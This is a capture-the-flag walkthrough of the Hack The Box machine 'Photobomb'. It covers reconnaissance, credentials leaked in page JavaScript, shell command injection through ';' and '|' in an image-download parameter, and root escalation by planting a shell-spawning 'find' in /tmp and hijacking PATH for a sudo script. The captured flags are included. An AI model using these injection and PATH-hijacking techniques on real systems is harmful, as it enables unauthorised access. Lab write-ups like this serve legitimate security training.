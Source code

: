 <h1>Photobomb</h1>

<div align="center">
  <img src="https://github.com/Wanasgheo/Writeups/assets/111740362/8775d37c-91c2-43fb-bddd-36da3cca479d"></img>
</div>

Welecome back, today  we will see an hackthebox machine called Photobomb
Let’s start out with a usual nmap scan.

```diff
# Nmap 7.92 scan initiated Fri Oct 21 09:54:09 2022 as: nmap -sC -sV -oN phtbomb_nmap.txt 10.10.11.182
Nmap scan report for 10.10.11.182
Host is up (0.037s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e2:24:73:bb:fb:df:5c:b5:20:b6:68:76:74:8a:b5:8d (RSA)
|   256 04:e3:ac:6e:18:4e:1b:7e:ff:ac:4f:e3:9d:d2:1b:ae (ECDSA)
|_  256 20:e0:5d:8c:ba:71:f0:8c:3a:18:19:f2:40:11:d2:9e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Oct 21 09:54:18 2022 -- 1 IP address (1 host up) scanned in 9.20 seconds
```

As always there’s the web page that we can visit.

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/ebbfb934-a583-431c-8a03-7a1f2801fdff"></img>

Nothing cool here unless a link which needs credentials to login.

By the way we can try to use gobuster

```cpp
┌──(kali㉿kali)-[~/diego/Hack_the_box/Machines/Photobomb]
└─$ gobuster dir --wordlist=/usr/share/wordlists/dirb/big.txt -u http://photobomb.htb/ 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://photobomb.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/10/21 09:56:38 Starting gobuster in directory enumeration mode
===============================================================
/[                    (Status: 400) [Size: 273]
/]                    (Status: 400) [Size: 273]
/favicon.ico          (Status: 200) [Size: 10990]
/plain]               (Status: 400) [Size: 278]  
/printer              (Status: 401) [Size: 188]  
/printer-friendly     (Status: 401) [Size: 188]  
/printer_friendly     (Status: 401) [Size: 188]  
/printerfriendly      (Status: 401) [Size: 188]  
/printers             (Status: 401) [Size: 188]  
/quote]               (Status: 400) [Size: 278]  
                                                 
===============================================================
2022/10/21 09:58:27 Finished
==============================================================
```

There are a few folders which are useless because they need  a password to visit them, but if we look at the source code we can spot an unusual link

```jsx
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
```

By following the given path it set for us the credentials that will be necessary to login into the printer page.

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/6869064b-a1aa-4ab9-8f20-28b108ef1487"></img>

At the moment we can’t find anything, but if throw an error by trying to find something that doesn’t exist into the url we get this message

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/1bffd86a-4dec-4576-b8bb-edcf76f7b7b7"></img>

This is the error message for the Sinatra Web-Framework which is vulnerable to directory trasversal, as we an see from this post [snyk](https://security.snyk.io/vuln/SNYK-RUBY-SINATRA-22017)

Even if we follow the idea of the Exploit it won't work but we still have the image downloader. So let’s take the request with burpsuite and try to inject some args

With the first we can’t do anything while with the second we are able to add others extensions to the file and get strange results

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/29d23de5-6e1d-4606-97aa-546cccce57ff"></img>

And here is the result

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/bcaddcdb-d85a-441b-89b1-2ef4cdddba9f"></img>

As you can see we are able to specify the output of how the image which gets printed 

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/054c0f62-f92d-4680-a6aa-9c84b5268a88"></img>

Now while fuzzing we find that there are two useful characters which are the `;` and the `|` that are the character to run more commands in a shell.

Here is an example.

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/b83f82f4-5200-4770-b73c-22a0d91cc8ab"></img>

So now we have to manage a way to get a reverse shell.

Because we are able to run bash commands we can make it tale our php rev-shell from us

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/b24d037a-3197-48d3-811a-7331731fdcf4"></img>

Now the only problem is that we have to find where our shell is. By injecting as command `python3 -m http.server` we can see that we are here

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/c7dd0f9d-64bd-4399-9866-c9d222686a10"></img>

So as you can see we have found the rev-shell but if we simply call it trough the URL we are no able to run it, this probably means that php is not installed, so thi was definetly a rabbit hole.

By the way before i forgot to try running a rev-shell with python, which turned out to be the solution.

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/1824ea49-21cd-4a49-800e-c0b3e99461c52"></img>

And here's why we couldn’t execute our rev-shell

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/d5b1ae4f-8d80-41d2-a3c1-484c1f3b4f3d"></img>

The php command was not installed.

By the way, we got the shell and now we can grab the user flag.

```python
wizard@photobomb:~$ cat user.txt
589b2daea8041e50dfd59a92c86783e7
wizard@photobomb:~$
```

# Root.txt

Here we are at the funniest part where we have to become root.
As always the first thing i do is checking for some privileges with `sudo -l`

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/43ab949a-444d-45c2-87b5-71a301f26621"></img>

Here is an interesting one because we can run a file called `/opt/cleanup.sh` as root

```bash
wizard@photobomb:/opt$ cat cleanup.sh 
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

If we look closely we can spot a command which gets runned without specifying its full PATH or `find`, so we just need to create an executable called `find` into the tmp folder that call a bash, adn then change the PATH with tmp as first folder.

Like this when the code will be ran as root it will execute not the real find but our find which is a shell spawner.

```bash
wizard@photobomb:/tmp$ cat find
#!/usr/bin/python3
import os
import sys 

try:
    os.system("/bin/sh")
except:
    os.exit()
```

Know we have to change the PATH

```bash
wizard@photobomb:/tmp$ export PATH=/tmp:$PATH
```

Like this when we run `find` we get a shell

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/190f966f-eb82-4011-ad38-aa676fe25722"></img>

Now we need to run it trough the file as sudo

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/30240213-f9cc-41c7-b72e-10e609c8b455"></img>

Mhhmm... It doesn't work, because it even export the curren PATH, but the sudo says that we can not only run as root the program but even set the env variables run-time, so just pipe all togheter

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/794ebfd2-0953-43d9-b75e-f6fe5fb19613"></img>

And.... It worked so now we can fetch the root flag!

```bash
root@photobomb:~# cat root.txt 
60a8c867e31611a23dc277dcec2de33c
root@photobomb:~#
```

We did it!
<div align="center">
  <img src="https://github.com/Wanasgheo/Writeups/assets/111740362/3ce0a554-60dc-4475-8498-c9985b800e7f"></img>
</div>

Thanks for the attention 0xCY@
